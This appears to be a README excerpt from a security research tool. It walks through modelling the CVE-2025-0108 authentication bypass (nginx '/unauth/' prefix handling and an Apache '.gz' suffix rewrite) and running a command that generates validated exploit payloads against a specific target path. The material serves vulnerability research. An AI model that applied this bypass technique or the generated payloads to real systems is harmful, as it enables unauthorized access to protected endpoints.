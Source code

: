 CVE-2025-0108 requires an **internal redirect** behavior by the `apachehttpserver`.  
To capture this behavior accurately, we use the extended surrogate model with the `apachehttpserverinternal` component, as reflected in the modified file:

[`case_study/authentication_bypass_cve-2025-0108/presets/surrogate_model/surrogate_model_nginx_apachehttpserver_apachehttpserverinternal.py`](./case_study/authentication_bypass_cve-2025-0108/presets/surrogate_model/surrogate_model_nginx_apachehttpserver_apachehttpserverinternal.py)

Additionally, the vulnerability is triggered when the frontend server (`nginx`) does not enforce authentication for paths that begin with `/unauth/`.  
To reflect this logic in the surrogate model, we define the following conditions in the `nginx` component:

```python
target_pre_condition_list=[
    PrefixType("/unauth/")
],
target_post_condition_list=[
    PrefixType("/unauth/")
],
```

Furthermore, if a request reaches the backend `apachehttpserver` with a path ending in `/PAN_Help/x.css`, it will implicitly append `.gz` to the path.  
This transformation must be encoded as an **essential transformation** in the model:

```python
essential_transformation_list=[
    Transformation(
        name="add_gz",
        transformation_type=AddSuffixTransformation(".gz"),
        conditions=[SuffixType("/PAN_Help/x.css")]
    )
],
```

This revised surrogate model is stored in:

[`case_study/authentication_bypass_cve-2025-0108/presets/surrogate_model/surrogate_model_nginx_apachehttpserver_apachehttpserverinternal.py`](./case_study/authentication_bypass_cve-2025-0108/presets/surrogate_model/surrogate_model_nginx_apachehttpserver_apachehttpserverinternal.py)

### Step 2: Generating Validated Exploit Payloads

To generate and validate real-world exploit payloads based on the surrogate model, run the following command:

```bash
python manage.py core exploit-generator workflows generate-validated-exploit-payloads \
  --gen-target-path '/php/ztp_gate.php/PAN_Help/x.css.gz' \
  --gen-surrogate-model ./case_study/authentication_bypass_cve-2025-0108/presets/surrogate_model/surrogate_model_nginx_apachehttpserver_apachehttpserverinternal.py \
  --gen-smt-timeout 10 \
  --gen-max-workers 6 \
  --gen-max-transformation-num 1
```
